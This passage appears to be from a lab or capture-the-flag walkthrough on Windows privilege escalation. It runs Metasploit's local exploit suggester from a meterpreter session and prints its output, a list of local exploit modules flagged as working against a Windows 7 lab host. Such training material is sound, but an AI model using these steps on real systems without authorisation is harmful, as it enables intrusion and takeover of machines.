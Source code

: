 What build of Windows is the system?

7601

Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?

x64

Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete*

```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.184.85 - Collecting local exploits for x86/windows...
[*] 10.10.184.85 - 186 exploit checks are being tried...
[+] 10.10.184.85 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.184.85 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.184.85 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.10.184.85 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.184.85 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.184.85 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.184.85 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.184.85 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.184.85 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[+] 10.10.184.85 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.184.85 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 3   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
 11  exploit/windows/local/adobe_sandbox_adobecollabsync            No                       Cannot reliably check exploitability.
```